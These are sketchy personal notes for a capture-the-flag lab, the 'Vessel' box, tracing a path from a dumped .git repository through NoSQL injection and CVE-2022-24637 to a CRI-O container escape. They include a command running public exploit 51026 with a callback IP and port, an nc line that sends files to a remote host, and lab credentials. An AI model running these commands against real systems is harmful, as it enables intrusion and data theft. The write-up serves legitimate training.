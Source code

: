 # Vessel Helped-Through

Name: Vessel
Date:  
Difficulty:  Hard
Goals: 
- Terrible previous week come back with a vengence
- Exploit Dev
- Containers and namespace
Learnt:
Beyond Root:


Watching the first minute of Ippsec explain the awesomeness of this box and that it was CVE focused, but required you to write the exploits. I have decided that I will revisit this box once I have forgotten while leaving the  what I have done to be put to one side.  




































## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

vessel.htb

https://github.com/arthaud/git-dumper

Git contains compressed information about a repository including all previous versions.

```bash
git-dumper http://vessel.htb/dev/.git ./dev
```

![](usernameethanhtb.png)

![](passwordfordb.png)

` : daqvACHKvRn84VdVp`

![](returntooldversion.png)

![1080](sqlinjectdisc.png)


## NoSQL Exploit

Type checking problem [Stackhawk](https://www.stackhawk.com/blog/node-js-sql-injection-guide-examples-and-prevention/)

![](nosql1.png)

![](nosql2.png)

![](nosql3.png)


## CVE Exploit 


http://openwebanalytics.vessel.htb/

![](openwebanalyticssearchsploit.png)

https://nvd.nist.gov/vuln/detail/CVE-2022-24637

![](sauceyversion.png)
https://www.exploit-db.com/exploits/51026

```bash
python3 51026.py -u admin -p 'admin' http://openwebanalytics.vessel.htb 10.10.14.102 6969
```

## Foothold

![](foothold.png)



## PrivEsc - through Steven to Ethan

```bash
nc $ip $port -w3 $files
```

https://medium.com/cassandra-cryptoassets/how-to-decompile-compiled-pyc-python-files-50e5f45d1edb
https://github.com/extremecoders-re/pyinstxtractor

![](screenshot.png)


https://github.com/rocky/python-uncompyle6/
https://pypi.org/project/PySide2/
```bash
pip install uncompyle6
pip3 install PySide2
```

![](extrxtthepyc.png)

Python2 
QRand from QtCore 

0-1000

Refering back screenshot.png 

Length is equal to 32

It is also pointed out it for Windows so the qrand

@n4nn4n0 : Did some testing with std::rand(1). Windows and Linux give different values, but clang and gcc are the same.

Windows machine setup incoming... along with completion of [[Sharp-Helped-Through]]

```bash
pdf2john
```

The problem is there is no entropy and same seed will produce the same outcome like minecraft. There are only a thousand

- Use the virtual environment to test code

To read the pdf
```bash
apt install Okular
```

## PrivEsc Ethan to Root

SETUIDs and `owauser : Vux8*ZF3rek94%N` for owa.
![](linpeaspinns.png)
https://fossies.org/linux/cri-o/pinns/src/pinns.c

https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/runc-privilege-escalation
Warning: *"This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work (unless you have a rootless configuration). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers"*


Reading about containerss and namespaces:
https://opensource.com/article/19/10/namespaces-and-containers-linux

[https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications](https://mkdev.me/posts/the-tool-that-really-runs-your-containers-deep-dive-into-runc-and-oci-specifications)

Al ran into rootless issues... @paffet suggests: [https://github.com/opencontainers/runc/#rootless-containers](https://github.com/opencontainers/runc/#rootless-containers)

https://www.toptal.com/linux/separation-anxiety-isolating-your-system-with-linux-namespaces


[https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b](https://medium.com/@Mark.io/simple-rootless-containers-with-runc-on-centos-redhat-f9230f74b88b)

[https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

DeCruyssen points out: wrong pinns.c
https://github.com/cri-o/cri-o/blob/v1.19.0/pinns/src/pinns.c

Search Engine Dorking 
```
-"docker"
```

https://www.zend.com/blog/rootless-containers
https://opensource.com/article/19/5/shortcomings-rootless-containers

## Beyond Root


